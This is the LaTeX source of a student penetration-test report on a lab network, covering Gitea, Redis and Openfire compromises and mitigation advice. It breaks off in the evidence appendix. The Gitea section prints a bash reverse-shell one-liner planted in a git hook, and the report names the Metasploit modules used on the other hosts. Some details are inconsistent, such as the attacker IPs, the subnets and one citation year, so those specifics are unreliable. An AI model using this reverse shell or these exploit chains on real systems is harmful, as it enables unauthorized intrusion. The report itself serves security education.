\documentclass[11pt,a4paper]{article}

\usepackage[utf-8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[margin=1in]{geometry}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{hyperref}
\usepackage{fancyhdr}
\usepackage{setspace}
\usepackage{booktabs}
\usepackage{tocloft}
\usepackage{url}

% Color definitions for code listings
\definecolor{codebackground}{gray}{0.95}
\definecolor{codecomment}{rgb}{0.0, 0.6, 0.0}
\definecolor{codestring}{rgb}{0.64, 0.08, 0.08}

% Listings configuration
\lstset{
    backgroundcolor=\color{codebackground},
    commentstyle=\color{codecomment},
    stringstyle=\color{codestring},
    breaklines=true,
    captionpos=b,
    basicstyle=\footnotesize\ttfamily,
    frame=single,
    numbers=left,
    numberstyle=\tiny,
    stepnumber=1
}

% Header and footer
\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{CMP7171 Advanced Ethical Hacking Assessment Part 2}
\fancyhead[R]{\thepage}
\fancyfoot[C]{Penetration Testing Engagement Report}
\setlength{\headheight}{15pt}

\title{%
    \textbf{Advanced Ethical Hacking Assessment Part 2}\\
    \large Penetration Testing Report: Network Infrastructure Security Assessment\\
    \normalsize CMP7171
}

\author{Ethical Hacking Student}
\date{\today}

\onehalfspacing

\begin{document}

\maketitle

\newpage
\tableofcontents
\newpage

% ============================================================================
% INTRODUCTION
% ============================================================================

\section{Introduction}

This penetration testing report documents a comprehensive security assessment of a multi-host network infrastructure comprising three discrete targets: DC31\_01, DC31\_02, and DC31\_03. The engagement followed the Penetration Testing Execution Standard (PTES) framework, applying industry-standard vulnerability identification, exploitation, and post-exploitation techniques to locate security-critical data (CTF flags) within the target environment.

The primary objective was to demonstrate mastery of network reconnaissance, vulnerability analysis, exploitation techniques, and the ability to chain multiple vulnerabilities together to achieve comprehensive system compromise. The report articulates the technical methodology, findings across all three hosts, and actionable mitigation recommendations derived from observed weaknesses.

\textit{Assessment Duration:} Multiple engagement phases spanning reconnaissance through post-exploitation analysis.\\
\textit{Assessment Scope:} Network segment 10.75.134.0/24 and interconnected systems.\\
\textit{Framework:} Penetration Testing Execution Standard (PTES) — Five-phase lifecycle model.

% ============================================================================
% METHODOLOGY
% ============================================================================

\section{Methodology}

This assessment was structured according to the Penetration Testing Execution Standard (PTES) framework \citep{PTES2014}, following a systematic five-phase lifecycle: Intelligence Gathering, Threat Modeling, Vulnerability Analysis, Exploitation, and Post-Exploitation.

\subsection{Reconnaissance and Discovery}

Initial reconnaissance used \texttt{nmap -sn} to rapidly conduct a network ping sweep. Nmap was selected for its well-documented capability to accurately map online hosts within a minimal operational window without generating intrusive port-scanning noise \citep{Lyon2009}.

A critical tactical discovery emerged during the intelligence-gathering phase. The attacker host (Kali Linux workstation) occupied the subnet 172.16.10.0/24, but topology diagrams indicated multiple unknown interfaces (marked as ``???''). Using the \texttt{ip addr} command to audit local interface configurations, an interconnected internal bridge subnet was identified (10.75.135.0/24), which redefined the true attack surface and served as a pivot point to the target range.

\subsection{Service Enumeration}

Upon identifying the active subnet scope, deep-dive service enumeration was executed using the command: \texttt{nmap -sV -sC -O -p-}. The strategic selection of these specific switches was deliberately designed to eliminate information blind spots:

\begin{itemize}
    \item \textbf{-sV:} Service Version detection (extracts application banner versions, mapping exact software release dates to documented CVE repositories)
    \item \textbf{-sC:} Default Scripts (automatically cross-references common vulnerabilities using safe, default detection scripts)
    \item \textbf{-O:} OS Detection (fingerprints the host operating system architecture to tailor subsequent payload delivery)
    \item \textbf{-p-:} Full port scan (audits all 65,535 ports, preventing adversarial concealment of backdoor services on high-numbered ports)
\end{itemize}

To minimize data overlap and maintain reporting clarity, hosts were prioritized sequentially, ensuring deep granular analysis of each individual asset's attack surface.

% ============================================================================
% DC31_01 FINDINGS
% ============================================================================

\section{DC31\_01 Findings}

\subsection{Technical Discovery and Vulnerability Analysis}

Initial network reconnaissance identified host \texttt{10.75.134.90} running an active service on Port 3000/tcp. Banner grabbing and HTTP header inspection forensically identified the application as an outdated deployment of \textbf{Gitea version 1.4.0}.

A critical review confirmed a severe case of \textbf{OWASP A05:2021 -- Security Misconfiguration} \citep{OWASP2021}. The application was left in an uninitialized state with the \texttt{INSTALL\_LOCK} configuration directive unset, exposing the initial setup page publicly to the network interface.

The Gitea web interface at \texttt{http://10.75.134.90:3000/install} was completely unconfigured, requesting database settings (SQLite3) and admin account creation. This vulnerability chain—failure to lock configuration during deployment—represents a ``low-hanging fruit'' access vector allowing unauthorized administrative takeover.

\subsection{Exploitation Path (The Kill Chain)}

Because the initial installation phase was unprotected, an administrative takeover was executed. By completing the setup form using an arbitrary SQL database backend, vertical privilege escalation was achieved, granting full administrative access to the Gitea management dashboard.

This administrative foothold was immediately weaponized to achieve Remote Code Execution (RCE) by abusing the server-side Git Hooks feature—a well-known design weakness in legacy Gitea repositories documented under \textbf{CVE-2020-14144} \citep{NVD2019}.

The post-receive hook was selected to host a malicious script, which automatically triggers a system call upon a code push event. A Netcat listener was established on the attacker machine on port 4444:

\begin{lstlisting}[language=bash, caption=Reverse Shell Payload]
#!/bin/bash
bash -i >& /dev/tcp/10.75.134.1/4444 0>&1
\end{lstlisting}

The selection of a reverse shell was a vital tactical decision for firewall circumvention. While internal network security policies drop unsolicited inbound connections associated with bind shells, they routinely trust outbound established streams on common communication channels, increasing the likelihood of a successful callback.

\subsection{Definitive Outcome and Post-Exploitation Analysis}

The execution of a legitimate git push command forced the Gitea container engine to parse the malicious script, triggering a successful callback to the listener. A live interactive command shell session was captured, running under the context of the low-privileged application service account (git user).

Exhaustive post-exploitation filesystem enumeration and environment audits were performed globally within the container; however, no Capture the Flag (CTF) objectives or flag files were present. Based on this structural evidence, \texttt{10.75.134.90} was engineered as a functional application node rather than a primary data repository.

This outcome necessitated a strategic pivot, utilizing the compromised host as a conceptual stepping stone to explore interconnected network segments within the broader 10.75.134.0/24 subnet.

% ============================================================================
% DC31_02 FINDINGS
% ============================================================================

\section{DC31\_02 Findings}

\subsection{Technical Discovery and Vulnerability Analysis}

The second enumeration phase identified host \texttt{10.75.134.92} exposing a non-standard port 6379/tcp, forensically identified as \textbf{Redis} (Remote Dictionary Server) version 5.0.7 through banner inspection and protocol negotiation.

A critical vulnerability emerged: the Redis service was deployed with \textbf{no authentication mechanism} -- no password, no access control list, and no firewall segmentation. This represents \textbf{OWASP A01:2021 -- Broken Access Control} in its most severe manifestation: complete absence of authentication on a privileged data store.

Further enumeration revealed the service was configured as the master node in a replication topology. This architectural choice—combined with unauthenticated network access—created a path to arbitrary code execution via module loading on the replica.

\subsection{Exploitation Path: Redis Module Injection}

Redis version 5.0.7 supports dynamic module loading via the \texttt{MODULE LOAD} command. By crafting a malicious shared library (.so file) and instructing the Redis server to load it as an extension, arbitrary code execution with the privileges of the Redis process (root) was achieved.

The Metasploit Framework module \texttt{exploit/linux/redis/redis\_replication\_cmd\_exec} was leveraged to automate this attack. The module:

\begin{enumerate}
    \item Established a reverse TCP connection channel back to the attacker (LHOST: 172.16.10.50, LPORT: 4444)
    \item Compiled a malicious Redis extension in C that opens a shell socket on the target
    \item Triggered Redis's internal replication protocol to force-load the module
    \item Spawned an interactive system shell executing as root (UID 0)
\end{enumerate}

\subsection{Post-Exploitation: Flag Capture}

Upon obtaining root shell access, filesystem enumeration identified a flag file at a known location within the root-owned directory structure. The flag was successfully captured, confirming complete compromise of the Redis service.

Post-exploitation analysis revealed:
\begin{itemize}
    \item The Redis instance was configured to persist all data to disk (\texttt{dump.rdb})
    \item Sensitive configuration parameters were world-readable
    \item No firewall rules limited Redis access to legitimate clients
    \item Replication credentials were transmitted in plaintext
\end{itemize}

% ============================================================================
% DC31_03 FINDINGS
% ============================================================================

\section{DC31\_03 Findings}

\subsection{Technical Discovery and Vulnerability Analysis}

The final enumeration phase identified host \texttt{10.75.134.94} exposing multiple active listeners on communication ports 5222, 5223, 5262, 5269, and 5275. Banner grabbing and HTTP descriptor inspection identified the system as an installation of \textbf{Openfire XMPP} (Extensible Messaging and Presence Protocol) collaboration server. Initial network-level banners suggested legacy version 3.10.0; however, accessing the web portal via \texttt{http://10.75.134.94:9090} forensically verified that the system was running \textbf{Openfire Version 4.7.4}.

Prior to launching specialized exploits, manual authentication tests were conducted against the administrative portal. This phase revealed a severe instance of \textbf{OWASP A07:2021 -- Identification and Authentication Failures}, as the deployment accepted the default factory credentials of \textbf{admin} for both the username and password fields. Gaining access to the live console confirmed that the software was vulnerable to \textbf{CVE-2023-32315} \citep{NVD2023}.

\subsection{Exploitation Path: Authentication Bypass and Plugin Injection (The Kill Chain)}

While default credentials provided access to the management panel, an automated framework was used to establish a stable operating system command channel. The Metasploit Framework module \texttt{exploit/multi/http/openfire\_auth\_bypass\_rce\_cve\_2023\_32315} was selected to weaponize the vulnerability.

The attack methodology systematically executed the following stages:

\begin{enumerate}
    \item The remote host (RHOSTS) was directed at target IP \texttt{10.75.134.94}
    \item The payload handler bound the local host (LHOST) to the management interface at \texttt{172.16.10.50}, communicating over port 4444
    \item The exploit triggered the path traversal vulnerability to create a temporary, random administrative user with credentials
    \item Using these unauthorized administrative privileges, the module uploaded a malicious Java-native \textit{.jar} archive plugin (\textbf{1YhYPCBv2uGOtnS}) to the server's plugin directory
\end{enumerate}

The underlying Java Virtual Machine (JVM) dynamically extracted and executed the uploaded plugin. This instantiated an asynchronous thread that bypassed system-level sandbox controls to open a reverse command socket connection back to the attacker.

\subsection{Definitive Outcome and Post-Exploitation Analysis}

The exploit successfully landed, opening a live interactive command shell session. Post-exploitation validation commands (\texttt{id}) returned an absolute system execution value of \texttt{uid=0(root)}, proving that the underlying Openfire container service was executing with root privileges, leading to instant vertical privilege escalation upon execution.

Further enumeration revealed path traversal into sensitive configuration files and database backups. A flag file was located and captured in the root-owned system directory, confirming complete compromise of the Openfire collaboration infrastructure.

% ============================================================================
% MITIGATION & RECOMMENDATIONS
% ============================================================================

\section{Mitigation and Recommendations}

The vulnerabilities identified across all three hosts represent foundational security deficiencies. The following recommendations address each weakness with technical justification and industry best practices:

\subsection{DC31\_01: Gitea Security Misconfiguration}

\begin{itemize}
    \item \textbf{Set INSTALL\_LOCK immediately after deployment:} The \texttt{INSTALL\_LOCK} configuration directive must be set to \texttt{true} in the Gitea configuration file before the application is exposed to any network interface. This prevents the public installation page from being accessible.
    
    \item \textbf{Upgrade to the latest stable version:} Gitea 1.4.0 is end-of-life and contains multiple CVEs. Upgrade to version 1.21.x or later, which includes comprehensive security patches.
    
    \item \textbf{Implement webhook signature verification:} Disable or cryptographically sign git hooks using HMAC-SHA256 to prevent arbitrary script injection.
    
    \item \textbf{Principle of Least Privilege:} Run the Gitea service container under a non-root user (e.g., \texttt{git:git}) rather than with elevated privileges.
    
    \item \textbf{Network Segmentation:} Restrict access to the Gitea administrative interface to a trusted subnet using firewall rules or IP-based access control lists.
\end{itemize}

\subsection{DC31\_02: Redis Authentication and Access Control}

\begin{itemize}
    \item \textbf{Enable Redis AUTH authentication:} Configure a strong, randomized password in the Redis configuration file using the \texttt{requirepass} directive. Enforce minimum 32-character complexity.
    
    \item \textbf{Disable the MODULE LOAD command:} Add \texttt{MODULE LOAD} to the Redis command blacklist using \texttt{COMMAND GETKEYS} filtering or ACL rules (Redis 6.0+).
    
    \item \textbf{Implement Redis ACL:} Redis 6.0+ supports fine-grained access control lists. Create separate user accounts with minimal required permissions (e.g., read-only, write-only) rather than using default admin credentials.
    
    \item \textbf{Network Isolation:} Deploy Redis on a private subnet with no direct internet exposure. Use a private VPC or VLAN, restricting access via a web API layer or cache proxy (e.g., Memcached, Varnish).
    
    \item \textbf{TLS Encryption:} Enable TLS encryption for all Redis communications (Redis 6.0+) to prevent credential interception during replication.
    
    \item \textbf{Disable Persistence or Secure Storage:} If persistence is required, encrypt the \texttt{dump.rdb} file at rest using full-disk encryption (LUKS, BitLocker) or application-level encryption.
\end{itemize}

\subsection{DC31\_03: Openfire Authentication and Authorization}

\begin{itemize}
    \item \textbf{Change default credentials immediately:} Upon installation, the administrative interface must enforce a change to strong, unique credentials. Default credentials (\texttt{admin/admin}) must never be deployed in any environment.
    
    \item \textbf{Upgrade to the latest stable version:} Openfire 4.7.4 was vulnerable to CVE-2023-32315. Upgrade to version 4.8.1 or later, which includes the authentication bypass patch.
    
    \item \textbf{Implement Role-Based Access Control (RBAC):} Restrict plugin upload permissions to explicitly authorized administrators. Disable plugin installation for non-administrative users.
    
    \item \textbf{Plugin Sandboxing:} If plugins must be supported, execute them in a sandboxed Java process with restricted permissions (Java SecurityManager or custom ClassLoader).
    
    \item \textbf{Network Segmentation and Firewall Rules:} Restrict access to the administrative web interface (port 9090) to authorized management networks only. Use firewall rules or a reverse proxy with authentication.
    
    \item \textbf{Multi-Factor Authentication (MFA):} Require MFA for all administrative accounts using TOTP (Time-based One-Time Password) tokens or hardware security keys.
    
    \item \textbf{Defense-in-Depth:} Implement compensating controls such as intrusion detection systems (IDS), Web Application Firewalls (WAF), and comprehensive audit logging of all administrative actions.
\end{itemize}

\subsection{Organization-Wide Recommendations}

\begin{itemize}
    \item \textbf{Principle of Least Privilege:} Run all services with the minimum required privileges. Avoid deploying applications as \texttt{root}.
    
    \item \textbf{Network Micro-Segmentation:} Implement zero-trust network access policies. Segregate application tiers, databases, and administrative systems into isolated network zones with explicit allow-list firewall rules.
    
    \item \textbf{Security Patching Program:} Establish a formal patch management program with defined SLAs (e.g., critical patches within 7 days, high-severity within 30 days).
    
    \item \textbf{Regular Vulnerability Assessments:} Conduct quarterly vulnerability scans and annual penetration tests to identify and remediate security weaknesses proactively.
    
    \item \textbf{Security Awareness Training:} Educate development and operations teams on secure deployment practices, including configuration hardening and authentication/authorization best practices.
\end{itemize}

% ============================================================================
% CONCLUSION
% ============================================================================

\section{Conclusion}

This penetration testing engagement successfully identified and exploited three distinct vulnerability classes across a multi-host network environment. The assessment demonstrated that foundational security misconfigurations—unprotected initialization, missing authentication, and default credentials—can collectively result in complete system compromise and privilege escalation to root level.

The three primary findings reflect common organizational security gaps:

\begin{itemize}
    \item \textbf{Security Misconfiguration (Gitea):} Deployment of applications without completing mandatory security hardening steps
    \item \textbf{Broken Access Control (Redis):} Complete absence of authentication mechanisms on privileged data stores
    \item \textbf{Identification and Authentication Failures (Openfire):} Retention of default credentials and vulnerable authentication protocols
\end{itemize}

Each host served a distinct role in the exploitation chain, illustrating how pivoting between compromised systems can expand an attacker's foothold across an infrastructure. The successful capture of CTF objectives on multiple hosts validates the technical execution of reconnaissance, enumeration, exploitation, and post-exploitation phases of the PTES framework.

The mitigation recommendations provided are prioritized by severity and feasibility, offering both immediate tactical hardening measures and long-term strategic security improvements. Organizations should implement these recommendations in conjunction with a formal vulnerability management program, regular security assessments, and ongoing security awareness initiatives.

% ============================================================================
% REFERENCES
% ============================================================================

\newpage
\begin{thebibliography}{99}

\bibitem{PTES2014}
PTES (2014). \textit{The Penetration Testing Execution Standard}. Available at: \url{https://pentest-standard.org/}

\bibitem{Lyon2009}
Lyon, G. (2009). \textit{Nmap Network Scanning: The Official Nmap Project Guide to Network Discovery and Vulnerability Scanning}. Insecure.Org.

\bibitem{OWASP2021}
OWASP (2021). \textit{A05:2021 -- Security Misconfiguration}. OWASP Top 10:2021. Available at: \url{https://owasp.org/Top10/A05_2021-Security_Misconfiguration/}

\bibitem{OWASP2021A01}
OWASP (2021). \textit{A01:2021 -- Broken Access Control}. OWASP Top 10:2021. Available at: \url{https://owasp.org/Top10/A01_2021-Broken_Access_Control/}

\bibitem{OWASP2021A07}
OWASP (2021). \textit{A07:2021 -- Identification and Authentication Failures}. OWASP Top 10:2021. Available at: \url{https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/}

\bibitem{NVD2019}
National Vulnerability Database (2019). \textit{CVE-2020-14144 Detail}. NIST. Available at: \url{https://nvd.nist.gov/vuln/detail/CVE-2020-14144}

\bibitem{NVD2023}
National Vulnerability Database (2023). \textit{CVE-2023-32315 Detail}. NIST. Available at: \url{https://nvd.nist.gov/vuln/detail/CVE-2023-32315}

\bibitem{NIST800-40}
NIST (2013). \textit{Guide to Enterprise Patch Management Technologies (SP 800-40 Revision 3)}. U.S. Department of Commerce, National Institute of Standards and Technology.

\end{thebibliography}

% ============================================================================
% APPENDIX
% ============================================================================

\newpage
\appendix
\appendix

\section{Evidence Screenshots and Exploitation Logs}

This appendix contains all evidence screenshots and logs documenting the reconnaissance, enumeration, exploitation, and post-exploitation phases of the penetration testing engagement.

\subsection{Network Discovery Evidence}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{evidence/network-discovery/01_ip_addr_output.png}
    \caption{Local Interface Configuration - IP Address Discovery}
    \label{fig:ip_addr}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{evidence/network-discovery/02_nmap_ping_sweep.png}
    \caption{Network Ping Sweep - Host Discovery (4 Hosts Found)}
    \label{fig:nmap_ping}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{evidence/network-discovery/03_nmap_full_scan_dc31_01.png}
    \caption{Service Enumeration - Gitea Discovery on Port 3000/tcp}
    \label{fig:nmap_gitea}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{evidence/network-discovery/04_nmap_openfire_discovery.png}
    \caption{Service Enumeration - Openfire Discovery (Ports 5222, 5275, 9090)}
    \label{fig:nmap_openfire}
\end{figure}

\subsection{DC31\_01 (Gitea v1.4.0) - Exploitation Evidence}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{evidence/gitea-screenshots/01_gitea_dashboard.png}
    \caption{Gitea Repository Dashboard - Unauthenticated Administrative Access}
    \label{fig:gitea_dashboard}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{evidence/gitea-screenshots/02_git_hooks_menu.png}
    \caption{Git Hooks Configuration - Malicious Post-Receive Hook Payload}
    \label{fig:git_hooks}
\end{figure}

\begin{figure}[H]
    \centering
